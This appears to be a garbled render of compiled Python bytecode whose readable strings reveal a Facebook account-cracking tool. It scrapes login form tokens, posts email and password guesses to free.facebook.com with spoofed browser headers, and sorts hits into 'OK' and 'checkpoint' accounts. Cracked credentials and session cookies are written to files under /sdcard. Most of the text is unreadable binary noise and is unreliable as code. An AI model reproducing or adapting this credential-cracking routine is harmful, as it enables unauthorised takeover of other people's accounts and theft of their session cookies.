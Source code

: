 ’
˜:Ñ&Ô&Ð&Ø—
’
˜9Ñ%Ô%Ð%ð�—’¥¨¨C°Ñ3Ô3Ð3Ñ3ñ
4ð		4ð4ð�4ð�4ñ�4ô�4ð�4ð�4ð�4ð�4ð�4ð�4ð�4øøøð�4ð�4ð�4ð�4ð�4ð�4s���ÆFL=Ì=MÍMc�����������
������ó
��—�	�|D�]}t����������j��������t����������¦��«��������}t����������j��������¦���«���������}t
����������j�������� ��������������������dt����������›d|›dt����������t����������¦��«��������›dt����������t����������¦��«��������›d	¦��«��������f�t
����������j�������� ��������������������¦���«����������| 
��������������������d¦��«��������j��������}t����������j��������dt#����������|¦��«��������¦��«�������� ��������������������d¦��«��������t����������j��������d	t#����������|¦��«��������¦��«�������� ��������������������d¦��«��������t����������j��������d
t#����������|¦��«��������¦��«�������� ��������������������d¦��«��������t����������j��������dt#����������|¦��«��������¦��«�������� ��������������������d¦��«��������dd|�|d
dœ	}i�dd“dd“dd“dd“dd“dd“dd“dd“dd “d!d"“d#d$“d%d&“d'd(“d)d*“d+d,“d-d.“d/d0“d1d2|d3œ¥}| ��������������������d4||¬5¦��«��������j��������}	|j�������� ��������������������¦���«��������� ��������������������¦���«���������}
d6|
v�rÁd7 ��������������������d8„�|j�������� ��������������������¦���«��������� ��������������������¦���«���������D�¦���«���������¦��«��������}|d9d:…���������}t3����������d;|›�d<|›�¦��«���������t3����������d=|›�¦��«���������t5����������d>d?¦��«�������� ��������������������|d<z���|z���d@z���¦��«���������t���������� ��������������������|¦��«����������nµdA|
v�r¯d7 ��������������������dB„�|j�������� ��������������������¦���«��������� ��������������������¦���«���������D�¦���«���������¦��«��������}|dCdD…���������}t3����������dE|›�d<|›�¦��«���������t5����������dFd?¦��«�������� ��������������������|d<z���|z���dGz���¦��«���������t���������� ��������������������|¦��«����������nŒ’t����������dz
��at
����������j�������� ��������������������dHt����������|t����������t����������¦��«��������fz��¦��«��������f�t
����������j�������� ��������������������¦���«����������d�S�#��Y�d�S�xY�w)INú
[[1;92mBLACK[1;97m] [ú/ú] [[1;92mOK[1;97m:-[1;92mú#[1;97m] [[1;91mCP[1;97m:-[1;91mú
[1;97m] 
r6���úname="lsd" value="(.*?)"r���úname="jazoest" value="(.*?)"úname="m_ts" value="(.*?)"úname="li" value="(.*?)"rq���úLog In©	ÚlsdÚjazoestÚm_tsÚliÚ
try_numberÚunrecognized_triesÚemailÚpassÚloginÚ	authorityúfree.facebook.comÚmethodÚGETÚschemeÚhttpsÚacceptú‡text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8úaccept-encodingúgzip, deflate, brúaccept-languageúen-US,en;q=1ú
cache-controlú#no-cache, no-store, must-revalidateÚrefererúhttps://t.facebook.com/ú	sec-ch-uaú>"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"úsec-ch-ua-mobileú?1úsec-ch-ua-platformÚWindowsúsec-fetch-destÚdocumentúsec-fetch-modeÚnavigateúsec-fetch-siteúsame-originúsec-fetch-userú?0Úpragmaúno-cacheÚpriorityúu=0úcross-originr†���©zcross-origin-resource-policyzupgrade-insecure-requestsz
user-agentúBhttps://free.facebook.com/login/device-based/regular/login/?refsrc©ÚdataÚheadersÚc_userú;c�����������������ó$���—�g�|�]
\��}}|d�z���|z���‘ŒS�©ú=r!���©Ú.0ÚkeyÚvalues���   r���ú
<listcomp>zrcrack.<locals>.<listcomp>Ž��ó$���€�ÐaÐaÐa±°°U˜s 3™w u™}ÐaÐaÐar%���é���é���õ���[38;5;46m[OK-BLACKðŸ˜] ú | ú([1;97m[[1;91mOK-BLACK[1;97m]:[1;92m ú/sdcard/OK-BLACK.txtr2���r=���Ú
checkpointc�����������������ó$���—�g�|�]
\��}}|d�z���|z���‘ŒS�r��r!���r��s���   r���r��zrcrack.<locals>.<listcomp>—��r	��r%���é���é'���õ���[38;5;196m[CP-BLACKðŸ˜ª] ú/sdcard/CP-BLACK.txtú 
ú&
[BLACK] [%s/%s]  [1;92mOK[1;97m|  
©r©���Úchoicerz���r���ÚSessionr���r>���r?���r���r¦���ÚoksÚcpsr@���r���r���r|���Úsearchr���ÚgroupÚpostr1���Úget_dictÚkeysr���Úitemsr
���rw���r{���©
r¿���r°���r±���ÚpsÚpror8���Úfree_fbÚlog_dataÚ
header_freefbÚloÚlog_cookiesr9���Úcids
���             r���Úrcrackr,��`��sÍ��€�ð?